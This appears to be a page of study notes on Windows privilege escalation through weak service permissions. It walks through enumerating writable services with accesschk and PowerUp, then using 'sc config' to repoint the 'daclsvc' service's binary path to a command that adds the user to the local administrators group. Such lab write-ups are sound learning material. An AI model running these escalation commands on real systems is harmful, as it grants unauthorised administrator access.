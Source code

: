 if we see the command given we can see have a binary `daclsvc` that we have read write permissions
-vwc = verbose,writable,service <br>
everyone = everyone on the computer
`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc Everyone *`
<br><br>
![](/Windows-Privilege-Escalation-Notes/windows_images/escalation-via-binary%20paths-1.png)

If we see the output of powerUp.ps1 we can see that 

![](/Windows-Privilege-Escalation-Notes/windows_images/escalation-via-binary%20paths-2.png)

we see our binary and we have the permission to restart the service 
and 
if we do 
`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
![](/Windows-Privilege-Escalation-Notes/windows_images/escalation-via-binary%20paths-3.png)


as we can see RW Everyone this means our user/group (non privilefed) has the permission to read write 
RW BUILTIN\Admin means that admin group also has the permissions to change 

if we query the service 
`sc qc daclsvc`
![](/Windows-Privilege-Escalation-Notes/windows_images/escalation-via-binary%20paths-4.png)

we can see the complete path of that service 

**Exploitation**

from the 3rd screenshot we can see that we have the permissions to change the configuration files lets change that get malicious with that 

using the command 
`sc config daclsvc binpath= "net localgroup administrators user /add"`

then if just start the service using `sc start daclsvc` we can just abuse and add our user to administrators

